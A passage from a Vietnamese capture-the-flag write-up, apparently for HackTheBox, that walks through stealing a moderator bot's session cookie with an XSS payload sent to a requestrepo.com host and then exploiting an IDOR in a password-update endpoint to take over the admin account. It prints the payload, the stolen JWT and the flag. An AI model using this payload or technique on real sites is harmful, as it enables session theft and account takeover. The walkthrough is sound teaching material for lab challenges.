 ![Request của bot gửi tới host của mình](https://i.imgur.com/RUIxcs9.png)

Vậy thì giờ steal cookie bằng payload này:
```
<script>fetch('http://zndnjde4.requestrepo.com?a='+document.cookie);</script>
```

![Bot request tới host của mình kèm theo cookie của bot](https://i.imgur.com/P9aXt2a.png)

Cookie của bot:
```
session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI5NTIyMTR9.h8Pb0TkEZuxhfuLEBuW_EdQH4v27CyKuuH6xkPaDhTk
```
Sử dụng cookie này để truy cập vô `/tickets` nhận thấy cookie này không phải của `admin` và cũng không thấy `flag` chỉ biết thêm được 2 trang mới là: `/settings` và `/logout`.

![Hai rote mới là /settings và /logout](https://i.imgur.com/7bsyXDl.png)

Trang Setting có chức năng reset password, cụ thể xem tại file `settings.js`:
```
await fetch(`/api/users/update`, {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json',
    },
    body: JSON.stringify({password: password1, uid}),
})
```
Trang sẽ request vào endpoint `/api/users/update` với 2 tham số: `password` và `uid`.

![Request tại endpoint đổi password](https://i.imgur.com/l4L1wVE.png)

Kiểm tra request history trong Burp Suite thấy được `uid` là `100`.
=> `uid` là 100 không phải là của admin. Tới đây thì đoán rằng account `admin` có `uid` là `1`.
Thay giá trị `uid` thành `1` và đăng nhập admin với new password đã change thì đăng nhập thành công và nhận được flag.

### Tóm lại
- XSS ở form report `/api/tickets/add` để steal cookie.
- Ở `/api/users/update` xảy ra lỗ hổng IDOR => có thể thay đổi password của user khác, cụ thể hơn là `admin`.
- Đăng nhập `admin` với password reset => lấy flag.

![Flag hiện ra sau khi truy cập được vào tài khoản admin](https://i.imgur.com/ViIgnVu.png)

**Flag**: `HTB{x55_4nd_id0rs_ar3_fun!!}`

## BlinkerFluids
Truy cập bài thì thấy được một số chức năng chính:
- Tạo 1 invoice
- Export invoice thành file PDF
- Xóa invoice đã tạo
